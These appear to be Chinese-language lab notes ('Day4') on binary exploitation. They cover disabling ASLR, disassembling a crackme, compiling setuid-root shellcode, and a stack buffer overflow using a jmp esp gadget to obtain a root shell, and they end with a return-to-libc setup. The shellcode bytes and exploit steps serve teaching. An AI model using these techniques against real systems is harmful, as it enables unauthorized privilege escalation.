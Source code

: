 Day4
===
關閉ASLR
---
    sysctl -a --pattren randomize
    sysctl -w kernal.randomize_va_space=0
![image](https://github.com/user-attachments/assets/55a72689-b830-4df2-b0c9-99ba9016c66c)

Check Binary
---
    strings ./crackme0x00a|grep GLIBC 檢查檔案資訊
    file crackme0x00a
![image](https://github.com/user-attachments/assets/94504db6-4f69-4356-a535-a9b9e08ee260)
![image](https://github.com/user-attachments/assets/0a47ab25-48c6-4f9c-a951-22e531be0862)

    rabin2拆解檔案內容 rabin2 -z crackme0x00a
![image](https://github.com/user-attachments/assets/916d8ce6-d3c0-4e8e-8677-c093d7a7b13a)

    使用gdb工具進行檔案拆解 gdb crackme0x00a
    
![image](https://github.com/user-attachments/assets/e19147fb-edb6-4dec-8618-0ab95d0bd773)

     disassemble main 
![image](https://github.com/user-attachments/assets/6a4893d2-828a-41ad-bf84-eb122e066542)

    x/s 0x804a024 解出密碼
![image](https://github.com/user-attachments/assets/651b701a-1e4b-490b-8440-666eca76768e)

    設定中斷點並執行
![image](https://github.com/user-attachments/assets/5b9cb403-1d59-4817-bbb5-f39dda6272e2)

    registers資訊，32bit有8個暫存器，64bit有16暫存器
![image](https://github.com/user-attachments/assets/25a6c5f9-d9aa-4564-a819-f83e5d8d7392)

    objectdump -d crackme0x00a or objectdump -d -M intel crackme0x00a
    兩者差異:
    AT&T有百分比，使用()，順序由左到右
![image](https://github.com/user-attachments/assets/7889f175-578d-4f6e-8bee-d13f7a59deb6)
![image](https://github.com/user-attachments/assets/ecc9b364-02c4-46cc-91cb-65ad5679a68e)

shellcode.c編譯&權限
---
    編譯shellcode.c，gcc shellcode.c -o shellcode -z execstack
![image](https://github.com/user-attachments/assets/d2348643-65b5-49db-a3eb-e222cbfad12d)

    執行shellcode
![image](https://github.com/user-attachments/assets/0cc8ebe4-6cfe-4d33-8c42-099e9a1262e1)

    提權&編譯
    加入 
    "\x6a\x17"		
    "\x58"			
    "\x31\xdb"		
    "\xcd\x80"
![image](https://github.com/user-attachments/assets/81e4e9b9-db86-4369-901e-d01c56423dbf)
![image](https://github.com/user-attachments/assets/a0cb0fd6-d96c-4d2e-a3f9-c7b3e9c154fe)

    變更擁有者和執行權限
    sudo chown root:root shellcode
    sudo chmod 4755 shellcode
![image](https://github.com/user-attachments/assets/fea8d6ed-5616-43e9-b6af-fb2b945c1cc4)

    執行確認uid=0(root)
![image](https://github.com/user-attachments/assets/78dcc4d2-c593-4b4b-ae1c-6e9e0d41bae0)

緩衝區益位stack.c
---
    編譯&變更擁有者和權限
    sudo gcc stack.c -o stack -z execstack -fno-stack-protector
    sudo chown root:root stack
    sudo chmod 4755 stack
    execstack 產生一個將堆疊標記為可執行或不可執行的部分
    -fno-stack-protector停用堆疊保護機制。堆疊保護是一項安全功能
![image](https://github.com/user-attachments/assets/9a5495a7-bd64-4f34-b81d-137ecd100c72)
![image](https://github.com/user-attachments/assets/66588ac4-ca39-4068-a785-e9559b93bc95)

    確認程式的保護機制
    checksec
![image](https://github.com/user-attachments/assets/405de152-e622-457f-ae43-a22f15d4bedc)

    反組譯程式碼
    disassemble main
    r
![image](https://github.com/user-attachments/assets/a3b70974-fdd0-4b88-b313-77374af32ad3)

    設定中斷點並找到所需檔名
    b *mian +55
    r
![image](https://github.com/user-attachments/assets/ebbd268b-7a78-43e2-8aad-3d507046e94b)

    建立badfile檔案並執行stack，程式就無報錯
![image](https://github.com/user-attachments/assets/96499010-86b7-4c68-8768-6a24f8ffe981)

    塞值到badfile讓他超出範圍
![image](https://github.com/user-attachments/assets/ed5b17bb-1597-4b8a-9601-8870048f721b)

    找出ret address ESP位置在第42bit
    pattern create 100 badfile
    r
    pattern search
![image](https://github.com/user-attachments/assets/1f3a871b-cf43-4a11-af79-1e3073ecbb10)
![image](https://github.com/user-attachments/assets/bc7a9aba-f6fe-418a-95d9-9e40ca0ec079)

    確認ret address 有塞BBBB的值
![image](https://github.com/user-attachments/assets/ef0644c7-485e-4b11-a945-9e1b38f28a41)
![image](https://github.com/user-attachments/assets/51cadb28-e0cb-494e-b104-9ca1835b2dac)

    將shellcode機器語言塞進去C的位置
    cat shellcode.c | grep '"' | cut -d'"' -f2,4 | tr -d '"' | tr -d '\n'
![image](https://github.com/user-attachments/assets/caa04db4-657e-42c9-b7be-3aa4cad186b1)
![image](https://github.com/user-attachments/assets/f5d740a9-287d-44b0-854d-f06f1c434198)
![image](https://github.com/user-attachments/assets/9ec9b776-0f34-43c7-85d7-03e63f12b028)

    利用jmpcall去執行shellcode
    vmmap
    jmpcall esp /lib/i386-linux-gnu/libc-2.23.so
![image](https://github.com/user-attachments/assets/18d71147-3075-4e68-8f7e-6ad980b72906)

    將找到的jump值塞入B的位置並執行stack，確認uid=0(root)
![image](https://github.com/user-attachments/assets/6784994b-5226-48fa-b7e9-5d4e710d8e21)

Return to Libc
---
   retlib.c line #11 40 > 140 
![image](https://github.com/user-attachments/assets/b25feb76-1f26-429d-9fc1-7789e8a89458)

    編譯retlib並變更擁有者和權限
    sudo gcc retlib.c -o retlib -fno-stack-protector -z noexecstack
    sudo chown root:root retlib
    sudo chmod 4755 retlib
![image](https://github.com/user-attachments/assets/6363d2ad-254d-4c8d-961d-6135138c4290)
